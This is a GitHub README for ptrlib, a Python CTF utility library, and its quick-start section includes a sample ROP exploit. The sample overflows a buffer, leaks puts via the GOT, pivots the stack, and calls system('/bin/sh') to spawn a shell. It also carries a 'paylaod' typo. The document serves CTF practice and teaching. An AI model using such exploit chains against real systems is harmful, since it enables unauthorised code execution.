 ptrlib
====

![Python Test (Windows)](https://github.com/ptr-yudai/ptrlib/workflows/Python%20Test%20%28Windows%29/badge.svg)
![Python Test (Ubuntu)](https://github.com/ptr-yudai/ptrlib/workflows/Python%20Test%20%28Ubuntu%29/badge.svg)

Python library which bundles security-related utilities.

## Description
Ptrlib is a Python library for CTF players.
It's designed to make it easy to write a complex program of cryptography, networking, exploit and so on.

## Why not pwntools?
Ptrlib is designed to be as library-independent as possible.
Also, ptrlib has some pros such as supporting Windows process.

## Requirements
Supports: Python 3.8 or later

Library Dependency:
- pycryptodome
- pywin32 (when handling Windows process)

External Program:
- When using `SSH` function:
  - ssh
  - expect
- When using `nasm` function:
  - nasm

## Usage
Basic examples are available at [/examples](https://github.com/ptr-yudai/ptrlib/tree/master/examples/).

Testcases under [/tests](https://github.com/ptr-yudai/ptrlib/tree/master/tests/) may also help you understand ptrlib.

## Quick Document
There are many functions in ptrlib.
In this section we try using it for a pwnable task.

You can run executable or create socket like this:
```python
sock = Process("./pwn01")
sock = Process(["./pwn01", "--debug"])
sock = Socket("localhost", 1234)
sock = SSH("example.com", 22, username="ubuntu", password="p4s$w0rd")
sock = SSH("example.com", 22, username="ubuntu", identity="./id_rsa")
```

If you have the target binary or libc, it's recommended to load them first.
```python
elf = ELF("./pwn01")
libc = ELF("./libc.so.6")
```
This doesn't fully analyse the binary so that it runs fast.
Also, ELF class supports cache to reduce calculation.

You can use some useful methods such as `got`, `plt`, `symbol`, `section` and so on.
The following is an example to craft ROP stager.
```python
"""
Connect to host
"""
# Host name supports CTF-style
sock = Socket("nc localhost 1234")
# You can show hexdump for received/sent data for debug
#sock.debug = True

"""
Write ROP chain
"""
addr_stage2 = elf.section(".bss") + 0x400

payload = b'A' * 0x108
payload += flat([
  # puts(puts@got)
  next(elf.gadget("pop rdi; ret;")),
  elf.got("puts"),
  elf.plt("puts"),
  # gets(stage2)
  next(elf.gadget("pop rdi; ret;")),
  addr_stage2,
  elf.plt("gets"),
  # stack pivot
  next(elf.gadget("pop rbp; ret;")),
  addr_stage2,
  next(elf.gadget("leave\n ret")) # GCC-style
], map=p64)
sock.sendlineafter("Data: ", payload)

"""
Leak libc address
"""
# You don't need to fill 8 bytes for u64
leak = u64(sock.recvline())
# This will show warning if base address looks incorrect
libc.base = leak - libc.symbol("puts")

payload  = b'A' * 8
paylaod += p64(next(elf.gadget("ret")))
# Automatically rebase after <ELF>.base is set
payload += p64(next(libc.search("/bin/sh")))
payload += p64(libc.symbol("system"))

# Shows warning if payload contains a character `gets` cannot accept
is_gets_safe(payload) # is_[cin/fgets/gets/getline/scanf/stream]_safe

sock.sendline(payload)

sock.sh() # or sock.interactive()
```

Interaction with curses is supported since 2.1.0.
```
sock.recvscreen()
if sock.recvscreen(returns=list)[1][1] == '#':
  sock.sendctrl("up")
else:
  sock.sendctrl("esc")
```

## Install
Run `pip install --upgrade ptrlib` or `python setup.py install`.

## Licence

[MIT](https://github.com/tcnksm/tool/blob/master/LICENCE)

## Author

[ptr-yudai](https://github.com/ptr-yudai)

## Contributor
Feel free to make a pull request / issue :)

- [jptomoya](https://github.com/jptomoy)
  - Added CI for Windows
  - Added SSL support
  - Refactored test cases
- [theoremoon](https://github.com/theoremoon)
  - Added/fixed several cryptography functions
  - Added buffering of Socket/Process
  - Added status check (CI test)
- [keymoon](https://github.com/key-moon)
  - Added algorithm package
